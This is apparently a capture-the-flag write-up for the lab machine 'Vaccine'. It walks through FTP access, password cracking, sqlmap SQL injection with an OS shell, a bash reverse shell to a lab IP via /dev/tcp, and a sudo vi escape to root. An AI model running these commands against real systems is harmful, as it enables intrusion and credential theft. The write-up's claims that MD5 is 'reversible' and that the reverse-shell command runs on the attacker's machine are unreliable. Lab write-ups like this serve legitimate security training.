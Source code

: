 # Vaccine
## User Flag
When starting a box it's always a good idea to run nmap to enumerate services on the target machine. Running `nmap -sV -sC 10.129.95.174` shows us the versions of services running and may point us towards vulnerabilities. The scripts don’t give us much, but we see that the machine has three TCP ports running:


![Nmap results.](images/1image.png "Nmap results.")


There are several ports to look at. Port **21** hosts an ftp service, **22** hosts an ssh service, and there seems to be a web service on port **80**. We will start investigating port **21** since it says we can log in anonymously. We can run `ftp anonymous@10.129.95.174`, keeping the password blank.


Connecting to the ftp service, we see that the directory holds a file named **backup.zip**, which we can add to our machine via `get backup.zip`. However, when we run `unzip backup.zip`, it is password protected.


We can attempt to use **John the Ripper** to crack the password. We can run `zip2john backup.zip` to get the password hash. We can copy it into another file, say **backup_hash.txt**, for processing:


![backup.zip hash](images/2image.png  "backup.zip hash")


To crack the password, we can run john backup_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt. To see the password, we can run john –show backup_hash.txt, revealing the password to be 741852963. We can then unzip the package using that password (unzip backup.zip). The zip file included index.php and style.css. Opening index.php we see:


![index.php](images/3image.png  "index.php")


Which gives us the admin password hashed in md5 and username. MD5 is reversible, so we can use **https://md5.gromweb.com/** to reverse it. We see that the password for the admin user is: **qwerty789**


We can log into the web page now with **username: admin** and **password: qwerty789**.


We are given a page with information and a search bar. It’s always a good idea to check for injection potential. Typing in `‘` into the search bar give us this:


![SQL Error message](images/4image.png  "SQL Error message")


The error message implies that we can manipulate input to get information on the system. A common tool to exploit sql injection is `sqlmap`. To use sqlmap, we need to provide the cookie related to the admin user. We can intercept traffic using BurpSuite to find that our cookie is **PHPSESSID=s95mr19bo0to9lhthhe0iaacun**.


![BurpSuite cookie](images/5image.png  "BurpSuite cookie")


We can get the password for the user using
`sqlmap -url="http://10.129.95.174/dashboard.php?search=Elixir" --passwords --cookie="PHPSESSID=s95mr19bo0to9lhthhe0iaacun"`


![sqlmap password results](images/6image.png  "sqlmap password results")


Again, we can reverse the md5 hash to get the password: **P@s5w0rd!postgres**. We now have the **user: postgres** and the **password: P@s5w0rd!postgres**.


We can use the `–os-shell` flag of sqlmap to get a shell on the target machine using this command:
`sqlmap -url="http://10.129.95.174/dashboard.php?search=Elixir" --os-shell --cookie="PHPSESSID=s95mr19bo0to9lhthhe0iaacun"`


Once in, we see that we can create and write files, however, that doesn’t seem to do us any good. What we can do, however, is set up a reverse shell.  On Kali Linux, we can run `nc -lvnp 4444`. On the attackers machine we can run: `bash -c ‘/bin/bash -i >& /dev/tcp/10.10.14.153/4444 0>&1’`
This opens up a reverse shell. In the postgres home directory, we can easily find **user.txt**, which contains the user flag.


# Root Flag
For the root flag, let’s go to **/var/www/html** (the default location for web service related things) and find the dashboard.php file. This gives us the password for postgres to be **P@s5w0rd!**.


![dashboard.php content](images/7image.png  "dashboard.php content")


We can use this info to ssh into the machine.


Once in, we need to figure out a way to escalate privileges. A good place to start would be to see if the postgres user can run anything via `sudo`. If we run `sudo -l`, we can run `/bin/vi /etc/postgresql/11/main/pg_hba`.conf. This can help us open a root shell. We run the command, which opens a vim editor.


Our vim command can be `:/bin/bash`, which opens up a root shell since we opened the file with elevated privileges.


Then we can find **root.txt** in the **/root** folder, which contains the root flag.



